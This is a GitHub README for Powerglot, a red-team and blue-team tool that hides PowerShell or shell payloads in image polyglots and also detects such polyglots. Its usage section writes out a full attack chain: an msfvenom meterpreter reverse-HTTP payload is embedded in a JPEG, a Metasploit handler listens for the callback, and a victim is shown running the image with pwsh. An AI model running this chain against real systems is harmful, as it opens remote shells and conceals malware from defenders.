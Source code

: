 # Powerglot
Powerglot encodes an auto-run powershell script using polyglots. A loader is not needed.

In red-team exercises or offensive tasks, the masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) in a digital image. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first open-source tool that allows to search for the presence of masked information in polyglots, information that could be useful to achieve persistence in a system or to hide malware

Features:

1. Encode powershell/shell script in a image using steganography, difficulting its detection. It is not necessay a loader. The image is a polyglot. 
To execute the image allows to execute another code (polyglot) to recover/execute the hidden information (payload).

2. PowerGlot works with several formats. Mainly, JPEG format.

3. Powerglot is the first open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. 
We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation

# Usage & Parameters

```
# SERVER
# Prepare the payload and configure the server to receive a meterpreter connection

# msfvenom --payload windows/x64/meterpreter_reverse_http --format psh --out meterpreter.ps1 LHOST=<IP> LPORT=<PORT>
# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-o.jpg
# Check correct JPEG format
  #file cat-o.jpg
  # feh cat-o.jpg

msf > use exploit/multi/handler msf exploit(multi/handler) > set payload windows/meterpreter_reverse_http payload => windows/meterpreter_reverse_http msf exploit(multi/handler) > set lhost <IP> lhost => <IP> msf exploit(multi/handler) > set lport <PORT> lport => <PORT> msf exploit(multi/handler) > exploit

# LINUX VICTIM
# Download cat-o.jpg
# Execute 
# pwsh cat-o.jpg or cat cat-o.jpg | pwsd
```

# Future work. Doing

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


